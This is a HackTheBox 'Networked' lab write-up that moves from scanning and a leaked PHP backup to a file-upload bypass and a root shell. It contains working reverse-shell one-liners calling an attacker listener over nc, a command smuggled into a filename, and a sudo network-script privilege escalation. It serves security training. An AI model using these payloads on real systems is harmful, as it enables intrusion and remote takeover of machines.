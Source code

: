 # Networked
## HackTheBox
### 10.129.235.199

#### NMAP
   PORT   STATE SERVICE REASON         VERSION
 * 22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
 * 80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
    http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
    http-methods:
      Supported Methods: GET HEAD POST OPTIONS
    http-title: Site doesn't have a title (text/html; charset=UTF-8).

#### Port 80
> Hello mate, we're building the new FaceMash!
> Help by funding us and be the new Tyler&Cameron!
> Join us at the pool party this Sat to get a glimpse

Found in source:
`<!-- upload and gallery not yet linked -->` 

#### Directories
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.235.199
 🚀  Threads               │ 80
 📖  Wordlist              │ /SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 🦡  User-Agent            │ feroxbuster/2.3.2
 💾  Output File           │ dirs/initialDir.log
 💲  Extensions            │ [php, html, txt]
──────────────────────────────────────────────────
200        8l       40w      229c http://10.129.235.199/index.php
301        7l       20w      238c http://10.129.235.199/uploads
200       22l       88w     1302c http://10.129.235.199/photos.php
200        1l        1w        2c http://10.129.235.199/uploads/index.html
200        5l       13w      169c http://10.129.235.199/upload.php
200        0l        0w        0c http://10.129.235.199/lib.php
301        7l       20w      237c http://10.129.235.199/backup

 * File upload available at `http://10.129.235.199/upload.php` 
 * File directory at `http://10.129.235.199/backup/` with file `backup.tar`

#### '/backup/` with file `backup.tar`
`wget http://10.129.235.199/backup/backup.tar` - saved in `/files`

The following files were listed in backup:
```Console
-rw-r--r--  staff  10240 Jul  9  2019 backup.tar
-rw-r--r--  staff    229 Jul  9  2019 index.php
-rw-r--r--  staff   2001 Jul  2  2019 lib.php
-rw-r--r--  staff   1871 Jul  2  2019 photos.php
-rw-r--r--  staff   1331 Jul  2  2019 upload.php
```

Photos.php
 * Gives file directories:
   * /var/www/html/lib.php
   * /var/www/html/uploads/

Interesting code in `photos.php`:
```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$ignored = array('.', '..', 'index.html');
$files = array();

$i = 1;
echo '<div class="tg-wrap"><table class="tg">'."\n";

foreach (scandir($path) as $file) {
  if (in_array($file, $ignored)) continue;
  $files[$file] = filemtime($path. '/' . $file);
}
```

From `photos.php`
```php
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }
```
 * Requires files less than 60000 bytes = 60kb
 * Requires uploaded file to have one of the following extensions: '.jpg', '.png', '.gif', '.jpeg'

Bypass file size by injecting code into the image itself
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.14.29 4242 >/tmp/f' > ProfileBlue.jpg`
 * Uploaded file to uploads
 * set up ncat listner to port 4242

**Note to self**
Remember the difference between using `>` and `>>`

 * shell achieved

#### User
 * User with no access to user. After some console setting adjustments
 * There is a user `guly` where the user flag is saved.
 * Found `check_attack.php` in the user's folder (copied and saved in `/files`
   * unfiltered command `rm` to remove unwanted files in the `/var/www/html/uploads/` path
   * create a file containing payload: command prepended with a ; to have guly execute `nc $IP 8888 -c bash`
   * command `touch '; nc <IP> 8888 -c bash`
   * After a bit of a wait, a connection was made.

user flag: `526*****************************`

#### Privesc as guly
Checked `sudo -l`
```Console
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
  * saved this in `/files`

references file `/etc/sysconfig/network-scripts/ifcfg-guly`
Provide argument `bash` when it asks for name, run as `sudo`

```Console
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `0a8*****************************`
